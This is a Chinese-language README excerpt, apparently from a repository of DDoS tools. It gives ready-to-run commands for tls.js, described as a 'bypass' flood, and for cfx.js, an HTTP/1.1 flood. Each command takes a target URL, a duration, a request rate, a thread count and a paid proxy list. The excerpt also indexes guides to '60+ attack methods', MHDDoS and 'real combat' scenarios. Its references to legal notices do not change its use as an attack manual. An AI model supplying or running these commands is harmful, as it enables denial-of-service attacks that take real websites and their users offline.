 **使用示例**:
```bash
# 常规绕过
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# 极限绕过
node 新建文件夹/tls.js https://目标.com 300 512 20 proxy_paid.txt
```

**参数说明**:
```
参数1: 目标URL
参数2: 时间（秒）
参数3: 速率（64-512）
参数4: 线程数（5-20）
参数5: 代理文件
```

---

### 3. cfx.js - HTTP/1.1洪水攻击

**快速简单的HTTP/1.1攻击**

**使用示例**:
```bash
node 新建文件夹/cfx.js https://目标.com proxy_paid.txt 60
```

---

## 📚 完整文档

### 必读文档

1. **法律声明.md** ⚠️ 必读！
   - 中文法律合规说明
   - 使用前必须阅读

2. **LEGAL_NOTICE.md** ⚠️ 必读！
   - English legal compliance
   - Must read before use

### 核心技术文档

3. **🏆 最强武器库使用指南.md** ⭐ 最新推荐
   - 60+ 种攻击方法完整说明
   - 每个场景的首选武器
   - MHDDoS 详细使用指南
   - 实战场景推荐

4. **📊 深度技术对比分析.md** ⭐ 技术细节
   - tls.js vs MHDDoS CFB 深度对比
   - 协议和性能分析
   - 最强武器选择依据
   - 完整决策矩阵
